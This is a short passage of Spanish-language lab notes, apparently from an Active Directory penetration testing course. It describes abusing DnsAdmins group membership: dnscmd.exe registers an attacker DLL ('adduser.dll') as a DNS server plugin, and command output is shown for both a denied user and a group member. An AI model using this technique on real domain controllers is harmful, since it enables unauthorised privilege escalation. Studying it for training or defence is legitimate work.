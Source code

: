 Comando:

```cmd
dnscmd.exe /config /serverlevelplugindll C:\Users\netadm\Desktop\adduser.dll

DNS Server failed to reset registry property.
    Status = 5 (0x00000005)
Command failed: ERROR_ACCESS_DENIED
```

* Resultado esperado para usuario normal: `ERROR_ACCESS_DENIED` (Status = 5). El servicio DNS no permite que usuarios no miembros de `DnsAdmins` cambien esa configuración.

---

## Caso contrario, se tienen privilegios
## Confirmar pertenencia a `DnsAdmins`

Comando PowerShell mostrado:

```powershell
Get-ADGroupMember -Identity DnsAdmins


distinguishedName : CN=netadm,CN=Users,DC=INLANEFREIGHT,DC=LOCAL
name              : netadm
objectClass       : user
objectGUID        : 1a1ac159-f364-4805-a4bb-7153051a8c14
SamAccountName    : netadm
SID               : S-1-5-21-669053619-2741956077-1013132368-1109    
```

* `Get-ADGroupMember` lista miembros de un grupo de Active Directory.
* Salida muestra atributos como `distinguishedName`, `name`, `SamAccountName`, `objectGUID`, `SID`.
* En este caso, vemos que nuestro usuario aparece entre los miembros.

---

## Carga de la DLL como miembro de `DnsAdmins`

Comando:

```cmd
dnscmd.exe /config /serverlevelplugindll C:\Users\netadm\Desktop\adduser.dll


Registry property serverlevelplugindll successfully reset.
Command completed successfully.
```

* Si el usuario es miembro de `DnsAdmins`, la respuesta será `Registry property serverlevelplugindll successfully reset.` y `Command completed successfully.`
* **Nota importante del texto:** hay que dar la ruta **completa** a la DLL; si no se especifica bien, el servicio no la cargará correctamente.
* Sólo dnscmd puede modificar esa propiedad, no es un permiso directo sobre la clave de registro para el usuario.

---